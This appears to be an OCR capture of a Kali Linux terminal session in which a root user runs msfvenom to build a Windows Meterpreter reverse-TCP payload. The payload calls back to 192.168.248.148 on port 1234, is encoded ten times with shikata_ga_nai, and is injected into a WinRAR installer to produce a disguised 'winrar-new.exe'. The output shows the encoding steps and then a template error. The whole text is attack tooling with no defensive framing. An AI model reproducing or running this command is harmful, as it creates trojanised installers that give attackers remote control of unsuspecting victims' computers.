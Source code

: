 ```
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -e x86/shikata_ga_nai -i 10 -f exe -k -x /root/Downloads/winrar-x32-611.exe > /root/payloads/Windows_Payloads/winrar-new.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Error: The template file doesn't have any exports to inject into!
```